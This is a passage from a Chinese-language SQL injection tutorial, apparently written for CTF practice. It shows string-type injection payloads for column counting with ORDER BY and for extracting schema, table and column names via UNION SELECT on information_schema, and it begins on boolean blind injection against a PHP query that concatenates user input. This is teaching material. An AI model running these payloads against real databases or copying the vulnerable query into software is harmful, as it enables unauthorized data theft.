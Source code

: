 就可以使`Where`的条件永真,直接输出`SELECT * FROM users`的所有内容。

同样，与数字型的注入方式类似，我们也可以使用联合查询的方法来获取数据库信息。

`order by `判断列数

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' order by 1-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 2-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 3-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 4-- ' AND password='$password'; # 报错
```



![image-20230426213252233](https://nssctf.wdf.ink//img/WDTJ/202304262132275.png)

那么接下来就和数字型注入相同 吧 `order by NUM` 换成对应的语句即可：

- 库名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```
- 字段名


```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```

### 盲注

盲注是指攻击者不能直接获取数据库中的信息，需要通过一些技巧来判断或推断出数据库中的数据。盲注主要分为布尔盲注和时间盲注两种。

我们还是以下面的句子为例子，不过相比于之前的不同，我们规定用户的查询没有回显，所以仅靠上面的方式我们无法获得数据，所以我们选用盲注。

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

#### 布尔盲注

对于上述语句，如果id的传参如下：

```sql
id = 1 AND 1=1
```

那么语句执行为：

```sql
SELECT username,password FROM users WHERE id = 1 AND 1=1;
```
